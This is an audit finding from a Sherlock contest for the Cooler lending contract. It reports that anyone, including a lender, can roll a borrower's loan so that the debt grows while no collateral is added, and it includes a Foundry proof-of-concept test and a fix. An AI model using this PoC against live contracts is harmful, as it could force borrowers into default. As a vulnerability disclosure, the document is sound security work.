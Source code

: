 Large Rainbow Squirrel

high

# Anyone can roll the loan on behalf of the borrower increasing the debt
## Summary
Depending on the roll conditions it may be possible to roll the loan without having to add more collateral and just increase the debt for the borrower. This attack can be easily implemented by the lender themselves.

## Vulnerability Detail
Rolling a loan is permissionless. Under normal conditions it requires providing more collateral so it is usually not in the interest of anyone other than the borrower. However, if loanToCollateral changes for the roll, then newCollateral may be 0. This case is handled in code.
```solidity
        if (newCollateral > 0) {
            collateral().safeTransferFrom(msg.sender, address(this), newCollateral);
        }
```
However, rolling will still increase the debt of the loan
```solidity
        uint256 newDebt = interestFor(loan.amount, loan.request.interest, loan.request.duration);

        // Update memory accordingly.
        loan.amount += newDebt;
```

Increasing the debt can be in the interest of the lender, so lender can set up this scenario and force the borrower to pay more debt.

### PoC

```solidity
    function test_roll_increaseDebt() public {
        uint256 amount = 1e18;

        cooler = _initCooler();
        (uint256 reqID, ) = _requestLoan(amount);
        uint256 loanID = _clearLoan(reqID, amount, true, false);

        vm.prank(lender);
        cooler.provideNewTermsForRoll( // Set conditions favorable for the lender. Increase LTC to avoid paying extra collateral
            loanID,
            INTEREST_RATE * 10000,
            LOAN_TO_COLLATERAL * 2,
            1
        );

        Cooler.Loan memory oldLoan = cooler.getLoan(loanID);

        vm.prank(lender);
        cooler.rollLoan(loanID); // No new collateral needed

        Cooler.Loan memory newLoan = cooler.getLoan(loanID);

        // New amount - 9222966785513229497, Old amount - 1000410958904109589. Debt increased tenfold
        assertGt(newLoan.amount, oldLoan.amount);
    }
```

## Impact
Lender can increase borrower's debt forcing a default.

## Code Snippet
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Cooler.sol#L192

## Tool used

Manual Review

## Recommendation

The safest option is to only allow rolling a loan by the borrower
